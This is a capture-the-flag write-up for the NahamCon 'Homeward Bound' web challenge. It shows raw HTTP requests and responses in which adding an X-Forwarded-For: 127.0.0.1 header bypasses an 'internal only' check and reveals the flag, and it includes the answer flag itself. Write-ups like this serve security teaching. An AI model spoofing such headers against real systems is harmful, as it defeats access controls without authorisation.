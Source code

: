 # Homeward Bound

Tags:

## Challenge

>Author: @JohnHammond#6971
>
>I can't get anything out of this website... can you find anything interesting?
>
>NOTE: That message is intended. This challenge is working as it should.
>
>Press the Start button on the top-right to begin this challenge.
>
>Connect with:
>
> http://challenge.nahamcon.com:32407


## Solving

### Original Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:

```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:02:56 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1241
Connection: close
Content-Type: text/html; charset=UTF-8


Sorry, this page is not accessible externally.
```

### Modified Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:
```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:15:46 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1285
Connection: close
Content-Type: text/html; charset=UTF-8


Welcome! Your internal access key is: flag{26080a2216e95746ec3e932002b9baa4}
```

`flag{26080a2216e95746ec3e932002b9baa4}`

### Informations

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
https://docs.aws.amazon.com/elasticloadbalancing/latest/classic/x-forwarded-headers.html
